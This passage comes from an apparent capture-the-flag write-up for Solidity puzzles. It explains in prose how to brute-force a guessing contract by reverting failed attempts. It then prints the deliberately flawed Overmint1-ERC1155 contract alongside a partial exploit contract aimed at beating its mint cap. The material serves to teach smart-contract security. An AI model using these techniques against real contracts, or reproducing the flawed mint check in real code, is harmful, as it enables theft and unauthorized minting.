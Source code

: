 ### Exploit
In the victim contract, for `settle` to be called successfully, `answer` must be equals to the `guess` storage variable that was stored when `lockInGuess` was called. Since the storage variables are not marked public, they will not be accessible by the attacking contract. So in the attacking contract, we can utilize a tracker: `exploitGuess` to track the value we pass into the victim contract's `lockInGuess` to initiate the attack. Additionally, `answer` has a `% 10` operation so this means that `answer` will always be a value in the range of: 0 - 9; so for an attack to work, `lockInGuess` should be called with a value in the same range.

One tricky aspect of `settle` is that it requires `msg.sender == guesser`, and it will always reset `guesser` to `address(0)` when it is called - regardless of whether `answer` matches `guess`. The only time the function will revert is when it fails to send ether to the msg.sender when the answer is correct. So the attack cannot allow `guesser` to be reset, otherwise we have to call `lockInGuess` again and this will also reset the value stored in `guess`.

We can replicate the hashing step of the victim contract in the attacking contract, and compare the value it returns to `exploitGuess` which is the value we initially set as `guess` in the victim contract when calling `lockInGuess`. If the return value does not match `exploitGuess`, we will intentionally revert the transaction so that `settle` does not reset `guesser` and by extension reset `guess`. The `settle` function can thus be brute-forced to get the correct answer by running `attack` with either a different `block.numer` and/or `block.timestamp` until the answer is correct.

## RareSkills Solidity Riddles: Overmint1-ERC1155
Link: https://github.com/RareSkills/solidity-riddles/blob/main/contracts/Overmint1-ERC1155.sol

### Contracts
- `src/Week8-9/Overmint1-ERC1155.sol`
```
contract Overmint1_ERC1155 is ERC1155 {
    using Address for address;

    mapping(address => mapping(uint256 => uint256)) public amountMinted;
    mapping(uint256 => uint256) public totalSupply;

    constructor() ERC1155("Overmint1_ERC1155") {}

    function mint(uint256 id, bytes calldata data) external {
        require(amountMinted[msg.sender][id] <= 3, "max 3 NFTs");
        totalSupply[id]++;
        _mint(msg.sender, id, 1, data);
        amountMinted[msg.sender][id]++;
    }

    function success(address _attacker, uint256 id) external view returns (bool) {
        return balanceOf(_attacker, id) == 5;
    }
}

contract ExploitContract is ERC1155Holder {
    Overmint1_ERC1155 public overmint1_ERC1155;

    constructor(Overmint1_ERC1155 _overmint1_ERC1155) {
        overmint1_ERC1155 = _overmint1_ERC1155;
    }

    function attack() public {
        overmint1_ERC1155.mint(0, "");
    }

    function complete() public {
        overmint1_ERC1155.safeTransferFrom(address(this), msg.sender, 0, 5, "");
    }

```